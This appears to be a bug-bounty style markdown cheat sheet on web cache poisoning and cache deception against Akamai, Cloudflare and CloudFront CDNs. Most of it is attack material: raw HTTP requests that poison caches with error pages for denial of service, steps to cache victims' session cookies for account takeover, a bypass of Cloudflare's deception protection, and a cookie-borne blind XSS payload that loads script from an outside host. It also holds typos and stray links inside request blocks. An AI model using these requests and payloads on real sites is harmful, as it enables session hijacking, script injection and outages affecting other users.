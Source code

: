 # Test Cache Poisoing

**Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.**

## Case 1:

If the applicatoin doen not have a login functionality, but using Akami CDN, You can test this method:

    - request:
    raw:  
         GET /xx/xxx/xxx/?param HTTP/1.1
         Host: hostname
         User-Agnet: xyz....
         Accept: text/html,applicaton/xhtml, applicatoin/xml.....
         Accept-Encoding: gzip, deflate
         Upgrade-Isecure-Requests: 1
         Te: trailers
         Connection: close

         - Check if the server is caching normal requests or not (You can tell this by the response header "Server-Timing: cnd-cache; desc=HIT")
         
     response:
         HTTP/2 200 OK
         ...
         Server-Timing: cnd-cahce; desc=HIT
         ...
        
         - Add an Illegal Request Header into the requst body.
         GET /xx/xx/xxx/param HTTP/2
         Host: hostname
         \:
         User-Agnet: xyz....
         Accept: ...
         ....
         
         - If the response was successfully cached, when you open the URL on any browser, you should get 400 Bad Request
         
         
## Case 2:
**If the Applicatoin does have a Login Functionality**
- Create an account
- Test Case1
- Check if any sensitve information is doclosed in any page (e.g: session Token)
- Send the request to Repeater
- Add a Cacheable Extention (.js, .css) at the end of the URL and see if it gives 200 OK Response
- Open the Modified URL using your authenticated Account:
- Open the Same URL using curl or Private Web Browser window.
```bash
curl "https://target.site/?param=1" --compressed | grep -i 'cookies'
```
- If the Token was successfully cached, you should see the Token in the response
### If the Application is using Cloudflare CND
**Illegal header won't work*, and most Cloudflare Cusotmer using Cache Deception Armor*
**_Youc can bypass this protection using .avif file extension while is really unknown extenstion file._**

### Cache Deception TO Account Takeover:
     All cookies (even HTTPonly ones) are being disclosed in https://target.com/app/account/1.js
     if an authenticated user visit this URL all their cookies will be stored in the cache
     An attacker can then extract the cookie and hijack their session.

### TIps & Trick
- In some Applicatoin, if you add a semicolon (;) before the extension it may give you a 200 OK response
  xxx/xxx/xxx/;.js 
  HTTP/2 200 OK
  
 
 ## Case 3: Cache Poisoning to DoS:
 **In Akamai CND, if we send a backslash \ as a header, the server will respond with ```400 Bad Request``` Response**
     request:
 
     raw: 
        GET /products/xxx/xxxx/xxx/?test HTTP/2
        Host: www.host.com
        \: 
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

   Response:
        
        HTTP/2 400 Bad Request
        Content-Type: text/html;charset=iso-8859-1
        Content-Length: 70
        Cache-Control: max-age=297
        Expires: Thu, 21 Jul 2022 16:17:54 GMT
        Date: Thu, 21 Jul 2022 16:12:57 GMT
        Server-Timing: cdn-cache; desc=HIT
        Server-Timing: edge; dur=32
        Server-Timing: origin; dur=147
        Strict-Transport-Security: max-age=86400
        Ak-Uuid: 0.bc85d817.1658419977.1592c61

**This becomes an issue when the site uses caching servers. Sites typically only caches javascript, css and other files, but when sites like www.host.com also caches normal responses like**

_www.host.com/product/*_

_www.host.com/*_

etc... It become a very impactful bug:

## Case 4: Cache Poisoing to Stored XSS

***Try in cookies if cookies body reflecting in response body: Try Stored XSSS, BXSS**
 
**Try for Blind XSS on Cookie if target blocking try jquery payload ```$.getScript``` will help you.**
request:

        GET /xxxx/xx-xx.otf?triagethiss HTTP/2
        Host: www.host.com
        Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-xss,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

  response:
  
        <script>
        ...
        Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
        ....
        </script>

### Tips & Tricks:
**Test for XSS on any Request Heder, cookies, Custom Header, X-Forwarded-*  Header**

## Attacking AWS Cloudfront CDN
**If you see anywhere in response or xml Amazon error bucket stuff 404**
_Response:_
```
HTTP/2 200 Ok
Date: Thu, 01 Dec 2022 07:51:01 GMT
X-Cache: Hit from cloudfront
Via: 1.1 2dd59b0ea355cb92a87e9e385032622a.cloudfront.net (CloudFront)
X-Amz-Cf-Pop: JFK50-P8
X-Amz-Cf-Id: KQBmzmGEBmmIfprhoM0VXi7RjmiDnGkXkj-_-uJRAFKhCdNuNYVNBw==
Age: 1082260 https://link.medium.com/D65XUelUlwb
```
Try with header... 
  ```X-Amz-Server-Side-Encryption: Anything ```

```
GET /?test HTTP/2

Host: ██████

X-Amz-Server-Side-Encryption: AES256xss

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Upgrade-Insecure-Requests: 1

Te: trailers https://link.medium.com/D65XUelUlwb 
```
  
_Response should 400 code_
```
HTTP/2 400 Bad Request


Date: Thu, 01 Dec 2022 07:51:01 GMT

Content-Type: application/xml

Cache-Control: public,max-age=600

X-Ua-Compatible: IE=edge,chrome=1

X-Amz-Cf-Pop: JFK50-P8

X-Amz-Cf-Id: oEWROikzmcKM5bviUrsPwyFQTbRzS8S7l_-kzH2NSLbChDsc9_K3yA==

Age: 4 https://link.medium.com/D65XUelUlwb 
```
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

